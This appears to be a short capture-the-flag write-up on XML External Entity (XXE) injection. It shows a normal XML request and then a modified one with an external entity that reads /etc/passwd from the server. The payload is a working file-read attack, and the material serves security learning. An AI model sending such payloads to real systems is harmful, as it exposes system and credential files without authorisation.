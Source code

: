# Learn
- `LFI (Local File Inclusion)` of `XXE`
- If you see `xml`, come up with `XXE`

# Writeup
```
<?xml version="1.0" encoding="UTF-8"?>
    <data>
        <ID>
            1
        </ID>
    </data>
```
->
```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE bbbb [<!ENTITY aaa SYSTEM "file:///etc/passwd" >]>
        <data>
            <ID>
                &aaa;
            </ID>
        </data>
```